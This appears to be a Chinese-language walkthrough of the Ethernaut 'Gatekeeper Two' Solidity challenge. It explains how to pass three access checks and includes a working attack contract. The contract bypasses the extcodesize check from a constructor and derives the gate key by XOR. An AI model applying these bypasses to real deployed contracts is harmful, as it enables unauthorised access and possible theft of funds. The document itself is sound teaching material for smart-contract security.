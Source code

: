 ## Gatekeeper Two
在做了第一道守门人后，这道题目看起来就easy很多了
先看代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```
一样的有三个函数修饰器需要满足，我们依旧分开来说
* **require(msg.sender != tx.origin);**
  这个和上一个的第一个条件一样，不再赘述，建一个合约就行。
* **uint x**
  **assembly { x := extcodesize(caller()) }**
  **require(x == 0);**
  这里涉及到了solidity中的汇编语言，[参考文档](https://solidity-cn.readthedocs.io/zh/develop/assembly.html#)，在这里`caller`是调用的发起者，`extcodesize(a)`会返回地址 a 的代码大小。
  关于这点，需要使用一个特性绕过：当合约正在执行构造函数constructor并部署时，其extcodesize为0。换句话说，如果我们在constructor中调用这个函数的话，那么extcodesize(caller())返回0，因此可以绕过检查。

*  **require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);**
  这个条件其实就是一个简单的异或，我们只需要反过来异或一次算出来的结果就是key<br/>

攻击合约:
```
pragma solidity ^0.6.0;

contract attack{
    address target;
    constructor(address _adr) public{
        target = _adr;
        bytes8 password = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^  uint64(0) - 1);
        target.call(abi.encodeWithSignature("enter(bytes8)",password));
    }
    
}
```